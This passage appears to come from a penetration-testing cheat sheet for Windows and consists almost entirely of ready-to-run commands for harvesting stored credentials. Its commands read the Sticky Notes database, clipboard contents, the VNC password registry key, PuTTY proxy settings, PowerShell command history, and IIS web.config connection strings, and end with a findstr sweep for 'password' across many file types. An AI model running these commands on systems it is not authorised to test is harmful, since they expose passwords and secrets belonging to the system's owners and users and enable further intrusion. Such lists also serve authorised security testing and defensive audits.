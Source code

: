 #### Or with PowerShell

{% code overflow="wrap" %}
```
type $home\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite
```
{% endcode %}

#### In Clipboard

```
powershell -command "Get-Clipboard"
```

#### In VNC

```
reg query "HKCU\Software\ORL\WinVNC3\Password"
```

#### In Putty

```
reg query HKEY_CURRENT_USER\Software\%username%\Putty\Sessions\ /f "Proxy" /s
```

#### Or With PowerShell

```
reg query HKEY_CURRENT_USER\Software\$env:username\Putty\Sessions\ /f "Proxy" /s
```

#### In Powershell History

{% code overflow="wrap" %}
```
type $home\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
{% endcode %}

#### In IIS WebServer configs

{% code overflow="wrap" %}
```
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```
{% endcode %}

```
type C:\inetpub\wwwroot\web.config | findstr connectionString
```

#### In WebServer Directories

{% code overflow="wrap" %}
```
findstr /si password *.txt *.ini *.config *.php *.pl *.xml *.xls *.xlsx *.csv *.doc *.docx
```
{% endcode %}
